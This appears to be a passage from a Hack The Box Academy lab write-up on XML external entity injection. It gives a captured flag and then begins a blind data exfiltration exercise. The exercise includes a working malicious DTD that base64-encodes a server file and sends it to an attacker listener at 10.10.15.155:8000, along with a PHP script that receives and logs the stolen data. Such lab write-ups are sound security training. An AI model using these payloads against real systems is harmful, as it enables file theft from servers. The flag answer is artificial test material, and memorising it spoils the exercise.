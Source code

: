 ![Burp Suite - POST Error XXE Attempt](./assets/screenshots/web_attacks_advanced_file_disclosure_burpsuite_post_error_xxe_attempt.png)

**Answer**

```
HTB{3rr0r5_c4n_l34k_d474}
```

## XML External Entity (XXE) Injection - Blind Data Exfiltration

### Questions

#### Question #09

**Question**

Using Blind Data Exfiltration on the `/blind` page to read the content of `/327a6c4304ad5938eaf0efb6cc3e53dc.php` and get the flag.

```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ vim xxe.dtd

<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.15.155:8000/?content=%file;'>">
```

```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ vim index.php

<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
